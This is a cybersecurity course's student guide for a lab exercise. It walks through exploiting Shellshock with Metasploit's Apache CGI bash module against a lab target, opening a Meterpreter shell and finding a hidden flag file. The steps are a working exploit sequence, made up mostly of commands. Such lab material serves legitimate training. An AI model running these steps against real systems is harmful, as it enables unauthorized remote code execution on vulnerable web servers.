




## Student Guide: Attacking Shellshock with Metasploit 
 
 The goal of this activity was to practice using the Metasploit framework to exploit Shellshock.

---
 
1. Type the command that launches Metasploit:
 
      - `msfconsole`
 
   
 
2. Type the command that performs a search for the `shellshock` exploit module:
 
   - `search shellshock`
 
   
 
3. Type the command that loads the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module:
 
   - `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
 
4. Type the command that shows the module options:
 
   - `show options`
 
   
 
5. Now that the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module is loaded, configure the module's target using the victim's IP address and specify which MSF exploit module to use.
 
   - Type the command that sets the `RHOSTS` option to the given target's IP address:
 
      - `set RHOSTS 192.168.0.21`
 
   - Type the command that sets the `TARGETURI` path to use the exploit module `/cgi-bin/vulnerable`:
 
      - `set TARGETURI /cgi-bin/vulnerable`
  
 6. Type the command that runs the exploit.
 
      - `run` or `exploit`
 
7. A Meterpreter session should now be open. 
   - Try to locate the hidden `flag` file on the exploited machine. 
   - **Hint** We'll cover this more in class next time, but try using Meterpreter's `shell` command to gain a **bash shell** into the victims machine.
   
`Solution:`

There are a few different to locate the locate the hidden flag. One of the easiest ways to locate the flag is by using the meterpreter's built in `shell` command to get a bash shell into the victims machine. From there, you can navigate through the different directories and use the `find` command to locate the flag. 
- Run: `shell` to get the shell command. 
- Run: `cd /` to the current directory to the root directory. 
- Run: `find . -iname flag` to find the flag file. 

You'll find the flag file in the `/var/www/secrets` directory. 

 
   
   
____
  
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
